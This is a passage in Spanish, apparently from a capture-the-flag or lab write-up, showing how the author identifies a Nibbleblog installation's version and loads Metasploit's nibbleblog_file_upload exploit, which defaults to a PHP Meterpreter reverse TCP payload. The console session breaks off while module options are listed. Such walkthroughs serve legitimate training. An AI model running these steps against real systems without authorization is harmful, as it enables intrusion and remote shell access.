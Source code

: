 Vamos a  la opcion de settings a la izquierda de la web, y en el footer de la pagina vemos la versión de nibble

![versionnibbleblog.png](assets/versionnibbleblog.png)

Buscando vemos que hay un exploit que podemos usar con metasploit, encendemos metasploit y probamos:

```bash
❯ msfconsole
Metasploit tip: Use help <command> to learn more about any command
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.3.44-dev                          ]
+ -- --=[ 2376 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

sea[msf](Jobs:0 Agents:0) >> search nibbleblog

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:p
```